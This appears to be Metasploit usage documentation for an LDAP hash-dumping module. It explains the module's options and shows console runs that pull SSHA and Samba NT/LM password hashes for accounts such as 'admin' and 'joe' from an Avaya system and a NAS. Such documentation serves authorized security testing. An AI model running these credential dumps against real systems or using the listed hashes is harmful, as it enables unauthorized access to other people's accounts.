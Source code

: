 ## Vulnerable Application

### Description

This module uses an LDAP connection to dump data from LDAP server
using an annonymous or authenticated bind.
Searching for specific attributes it collects user credentials.

### Setup

Tested in the wild. No setup notes available at this time, as setup will
be specific to target environment.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Actions

### Dump

Dump all LDAP data from the vCenter Server.

## Options

### BASE_DN

If you already have the LDAP base DN, you may set it in this option.

### USER_ATTR

LDAP attribute to take the user name from. Defaults to DN, however you may
wish to change it UID, name or similar.

### PASS_ATTR

LDAP attribute to take the password hash from. Defaults to userPassword,
some LDAP server may use different attribute, e.g. unixUserPassword,
sambantpassword, sambalmpassword.

## Scenarios

### Avaya Communication Manager via anonymous bind

```
msf5 > use auxiliary/gather/ldap_hashdump
msf5 auxiliary(gather/ldap_hashdump) > options

Module options (auxiliary/gather/ldap_hashdump):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   BASE_DN                     no        LDAP base DN if you already have it
   PASS_ATTR  userPassword     yes       LDAP attribute, that contains password hashes
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      389              yes       The target port
   SSL        false            no        Enable SSL on the LDAP connection
   USER_ATTR  dn               no        LDAP attribute, that contains username


Auxiliary action:

   Name  Description
   ----  -----------
   Dump  Dump all LDAP data


msf5 auxiliary(gather/ldap_hashdump) > set RHOSTS [redacted_ip_address]
RHOSTS => [redacted_ip_address]

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=vsp
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726121633_default_[redacted_ip_address]_LDAPInformation_716210.txt
[*] Searching for attribute: userPassword
[*] Taking dn attribute as username
[+] Credentials found: uid=cust,ou=People,dc=vsp:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[+] Credentials found: uid=admin,ou=People,dc=vsp:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[*] Auxiliary module execution completed
msf5 auxiliary(gather/ldap_hashdump) > set USER_ATTR uid
USER_ATTR => uid
msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=vsp
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726121718_default_[redacted_ip_address]_LDAPInformation_712562.txt
[*] Searching for attribute: userPassword
[*] Taking uid attribute as username
[+] Credentials found: cust:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[+] Credentials found: admin:{SSHA}AZKja92fbuuB9SpRlHqaoXxbTc43Mzc2MDM1Ng==
[*] Auxiliary module execution completed
msf5 auxiliary(gather/ldap_hashdump) >
```

### NASDeluxe - NAS with Samba LM/NTLM hashes

```
msf5 auxiliary(gather/ldap_hashdump) > set USER_ATTR uid
USER_ATTR => uid
msf5 auxiliary(gather/ldap_hashdump) > set PASS_ATTR sambantpassword
PASS_ATTR => sambantpassword
msf5 auxiliary(gather/ldap_hashdump) > set RHOSTS [redacted_ip_address]
RHOSTS => [redacted_ip_address]

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=server,dc=nas
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726201006_default_[redacted_ip_address]_LDAPInformation_026574.txt
[*] Searching for attribute: sambantpassword
[*] Taking uid attribute as username
[+] Credentials found: admin:209C6174DA490CAEB422F3FA5A7AE634
[+] Credentials found: joe:58E8C758A4E67F34EF9C40944EB5535B
[*] Auxiliary module execution completed

msf5 auxiliary(gather/ldap_hashdump) > run
[*] Running module against [redacted_ip_address]

[*] Discovering base DN automatically
[*] Searching root DSE for base DN
[+] Discovered base DN: dc=server,dc=nas
[*] Dumping LDAP data from server at [redacted_ip_address]:389
[*] Storing LDAP data in loot
[+] Saved LDAP data to /home/hynek/.msf4/loot/20200726201731_default_[redacted_ip_address]_LDAPInformation_427417.txt
[*] Searching for attribute: sambalmpassword
[*] Taking uid attribute as username
[+] Credentials found: admin:F0D412BD764FFE81AAD3B435B51404EE
[+] Credentials found: joe:3417BE166A79DDE2AAD3B435B51404EE
[*] Auxiliary module execution completed
```
